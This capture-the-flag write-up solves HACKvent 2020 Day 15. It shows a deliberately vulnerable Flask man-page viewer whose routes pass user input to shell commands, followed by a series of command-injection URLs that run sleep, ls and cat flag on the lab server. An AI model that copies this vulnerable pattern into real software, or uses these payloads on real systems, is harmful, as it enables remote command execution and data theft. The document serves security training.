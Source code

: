 # Day 15 / HV20.15 Man Commands, Server Lost


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tags:   #penetration-testing #web-security
* Level:  hard

### Introduction

Elf4711 has written a cool front end for the linux man pages. Soon after
publishing he got pwned. In the meantime he found out the reason and improved
his code. So now he is sure it's unpwnable.


### Notes

* You need to start the web application from the `RESOURCES` section on top
* This challenge requires a VPN connection into the Hacking-Lab. Check out the
  document in the `RESOURCES` section.

### Hints

* Don't miss the source code link on the man page


### Resources

* Man Commands server instance
* Student VPN instructions



## Solution

The challenge's web application looks like this:

![](screenshot_man_server.png){width=100%}

… and here is the web app's source code:

````python
# flask_web/app.py

from flask import Flask,render_template,redirect, url_for, request
import os
import subprocess
import re

app = Flask(__name__)

class ManPage:
  def __init__(self, name, section, description):
    self.name = name
    self.section = section
    self.description = description

@app.route('/')
def main():
  return redirect('/man/1/man')

@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)

@app.route('/man/')
@app.route('/man/<section>/<command>')
def manpage(section=1, command="bash"):
  manFile = "/usr/share/man/man" + str(section) + "/" + command + "." + str(section) + ".gz"
  cmd = 'cat ' + manFile + '| gunzip | groff -mandoc -Thtml'
  try: 
    result = subprocess.run(['sh', '-c', cmd ], stdout=subprocess.PIPE)
  except subprocess.CalledProcessError as grepexc:                                                                                                   
    return render_template('manpage.html', command=command, manpage="NOT FOUND")

  html = result.stdout.decode("utf-8")
  htmlLinked = re.sub(r'(<b>|<i>)?([a-zA-Z0-9-_.]+)(</b>|</i>)?\(([1-8])\)', r'<a href="/man/\4/\2">\1\2\3</a><a href="/section/\4">(\4)</a>', html)
  htmlStripped = htmlLinked[htmlLinked.find('<body>') + 6:htmlLinked.find('</body>')]
  return render_template('manpage.html', command=command, manpage=htmlStripped)

@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
  
def parseCommands(ret):
  commands = []
  for line in ret.split('\n'):
    l = line.split(' - ')
    if (len(l) > 1):
      m = l[0].split();
      manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
      commands.append(manPage)
  return commands

if __name__ == "__main__":
  app.run(host='0.0.0.0' , port=7777)
````


### Interpreting the attack possibilities

One of the three entry points is better than the others. It's the one with 
`@app.route('/man/')`. Through that entry point it is even possible to print
results back to the web page as the `command` variable is not parsed there.

`return render_template('manpage.html', command=command, manpage=htmlStripped)`

And that means that it's not necessary to use a reverse shell contrary to what
the challenge description says.

Here follows a list of increasingly better injections:

* `/man/1/man; sleep 5; %23`

   Output: ``

   This injection just makes the server wait for 5 seconds in order to proof
   that an injection is possible.

* `/man/1/man; echo "oooooohhhhhhh my" ; %23`

   Output: `ohhhhhhh my`

   This injection shows that output to the webpage is possible. It also
   demonstrates that the first 5 characters from an output get cut away.

* `/man/1/man; echo "12345"; pwd; echo ""; ls; %23`

   Output: `/ bin boot dev etc flag home lib lib64 media mnt opt […]`

   This injection shows that access on the remote file system works perfectly
   except for newline characters.

* `/man/1/man; echo "12345"; cat flag; echo " "; %23`

   Output: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

   This injection gets the flag.

--------------------------------------------------------------------------------

Flag: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

